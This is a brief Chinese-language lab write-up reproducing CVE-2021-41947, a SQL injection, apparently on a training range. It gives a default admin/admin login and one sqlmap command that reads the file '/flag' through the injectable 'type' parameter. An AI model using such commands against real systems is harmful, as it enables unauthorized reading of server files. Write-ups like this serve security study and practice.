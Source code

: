 ```yaml
---
title: CVE-2021-41947【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-41947)

[CVE-2021-41947](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-41947)

## 2. 漏洞复现

登录 `admin/admin` 

burp suite 抓包跑 sqlmap

```shell
python  sqlmap.py -r post.txt -p type --file-read "/flag"
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310072354434.png)
